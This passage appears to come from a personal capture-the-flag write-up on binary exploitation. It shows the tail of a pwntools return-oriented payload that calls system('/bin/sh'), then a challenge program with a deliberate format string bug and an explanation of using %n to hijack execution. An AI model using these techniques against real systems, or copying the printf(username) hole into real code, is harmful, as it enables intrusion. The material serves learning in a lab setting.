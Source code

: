 ```python

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(ret_gadget)  
payload += p64(system_addr)
payload += p64(exit_addr) # not really required

p.sendline(payload)
p.interactive()
```

Took me a few hours, costing me position 1 on the board, but fun to do. Main issue that held me up the longest was not realising I needed that ret gadget in the call to system, so fiddly.

## Task 9

Code:

```c
int win(){

    system("/bin/sh\0");

}

int main(){

    setup();

    banner();

    char *username[32];

    puts("Please provide your username\n");

    read(0,username,sizeof(username));

    puts("Thanks! ");

    printf(username);

    puts("\nbye\n");

    exit(1);    

}
```

In comparison, much easier than 8 largely due to pwntools being a boss. This is called a 'format string exploit', because for reasons only known to the ancient C library authors that have made all of infosec possible (🫡), printf (where you print strings with %s, numbers with %d, etc) includes %n which *writes* to a target memory location the 'number of bytes read so far'. Since addresses are just numbers, if you can find a target address and then manipulate the format string to read that many bytes (or usually just write different portions at a time) you can overrite the return address of the function with a new address and hijack exectution, here with a classic ret2win.
